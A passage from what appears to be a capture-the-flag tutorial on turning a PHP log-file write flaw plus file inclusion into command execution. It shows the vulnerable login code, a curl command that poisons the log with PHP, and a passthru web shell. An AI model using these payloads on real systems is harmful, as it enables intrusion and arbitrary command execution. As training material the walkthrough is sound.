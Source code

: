 Now, the goal of a hacker, is to manipulate the program into running arbitrary commands that the programmer did not intend for. 
Here, we see two segments that includes files. Now, the log file would be interesting, and the next section will show you why.

Now, we take a look at ```login.php:```
```php
<?php
$login=@$_POST['login'];
$password=@$_POST['password'];
if(@$login=="admin" && sha1(@$password)==$pwhash){
	//don't bother logging in
	//try something else
}else if (@$login&&@$password&&@$_GET['debug']) {
	echo "Login error, login credentials has been saved to ./".htmlentities($login).".log";
	$logfile = "./".$login.".log";
	file_put_contents($logfile, $login."\n".$password);
}
?>
<center>
login<br/><br/>
<form action="" method="POST">
<input name="login" placeholder="login"><br/>
<input name="password" placeholder="password"><br/><br/>
<input type="submit" value="Go!">
</form>
</center>
```

From ```login.php```, we can tell that it'd be difficult to crack the ```$pwhash```. However, there is an interesting section of the code that logs login attempt to a file determined by the username provided.
Remember from ```index.php```, you are able to include log files? Got an idea of how to run arbitrary commands now?

Let's first try to use the logging function to write some PHP code into the log file, and then run it using ```index.php```.
* index.php?page=login&debug=1 - Username = nusgreyhats & Password = <?php echo "HAHA GOT YOU!"; ?></br>
Or</br>
```curl -d "login=nusgreyhats&password=<?php echo \"HAHA GOT YOU!\"?>" "http://url/index.php?page=login&debug=1"```
Remember to change the URL to the correct URL.

Now let's browse to the log file to see if it is written accurately.
* http://URL/nusgreyhats.log - You should see the PHP code you've specified being output.

Great! Now we can proceed to write PHP codes that allows use to run arbitrary commands.
Write this to the log file:
```php
<?
passthru($_GET['cmd']);
?>
```
Take a look at the PHP manual for the passthru function:
http://php.net/manual/en/function.passthru.php
What it does is to execute a command on the machine and to pass the output back to the browser.
Therefore, using passthru, we are able to enumerate directories.

